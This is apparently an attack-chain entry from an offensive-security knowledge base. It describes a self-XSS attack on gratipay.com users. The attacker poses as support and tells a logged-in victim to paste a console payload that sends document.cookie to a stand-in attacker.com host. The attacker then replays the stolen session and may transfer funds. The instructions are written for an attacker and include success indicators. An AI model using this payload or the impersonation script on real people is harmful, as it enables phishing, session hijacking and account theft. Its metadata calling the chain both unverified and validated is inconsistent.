

---
tags:
  - self-xss
  - xss
  - social-engineering
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trick-User-into-Self-XSS-JavaScript-Injection]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
  - '[[Phishing]]'
updated_at: '2025-12-14T03:15:31.712Z'
description: >-
  A social engineering attack exploiting the lack of self-XSS protections on
  gratipay.com to trick users into injecting JavaScript, potentially resulting
  in session hijacking or data theft.
skill_level: intermediate
impact_level: medium
id: c4266401-1ef3-4274-982a-7df357efc4fa
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Phishing]]'
---
# Self-XSS via Social Engineering Leading to Session Hijacking on Gratipay

Multi-stage attack chain demonstrating a complete attack workflow exploiting the absence of self-XSS protections on gratipay.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- None (relies on browser developer tools and social engineering)

### Target Environment

- Web platform (gratipay.com)
- No specific services or ports required beyond standard HTTPS (port 443)
- Attacker needs communication channel with victim (e.g., email, chat)

### Initial Access Requirements

- No prior credentials needed
- Victim must be a logged-in user on gratipay.com
- Attacker must convince victim to interact with malicious instructions

## Detailed Attack Procedures

### Step 1: Social Engineering the Victim
procedure: [[procedures/Trick-User-into-Self-XSS-JavaScript-Injection]]

**Objective**: Convince the target user to execute a malicious JavaScript payload on their own browser session while logged into gratipay.com.

**Instructions**: Contact the victim via email, chat, or social media, posing as support or a trusted entity. Instruct them to "debug" an issue by opening the browser console (F12 or right-click > Inspect) and pasting a seemingly innocuous script, such as one that logs session data or performs an action. For example, provide a payload like `fetch('https://attacker.com/steal?cookie=' + document.cookie);` disguised as a troubleshooting step.

**Expected Output**: Victim pastes and executes the JS in the console, sending session data to attacker's server.

**Success Indicators**:
- Victim confirms execution or reports "fix" applied
- Attacker receives exfiltrated data (e.g., cookies) on their endpoint

### Step 2: Exploit Self-XSS for Compromise
procedure: [[procedures/Trick-User-into-Self-XSS-JavaScript-Injection]]

**Objective**: Leverage the executed JS to hijack the session or steal data, capitalizing on the lack of browser warnings or input sanitization that prevents self-injection.

**Instructions**: Once the victim executes the payload, the JS runs in the context of gratipay.com, accessing session tokens, local storage, or performing actions like transferring funds if applicable. Monitor the attacker's server for incoming data. No additional input fields are needed since console execution bypasses typical protections.

**Expected Output**: Receipt of sensitive data such as session cookies, user tokens, or account details on the attacker's controlled server.

**Success Indicators**:
- Session cookies or auth tokens received
- Ability to replay stolen session for account access

## Attack Chain Summary

### Key Achievements

1. Successful social engineering to induce self-XSS without site-wide compromise
2. Execution of arbitrary JS in victim's authenticated session
3. Potential for session hijacking or data exfiltration with low technical barriers

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Phishing]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
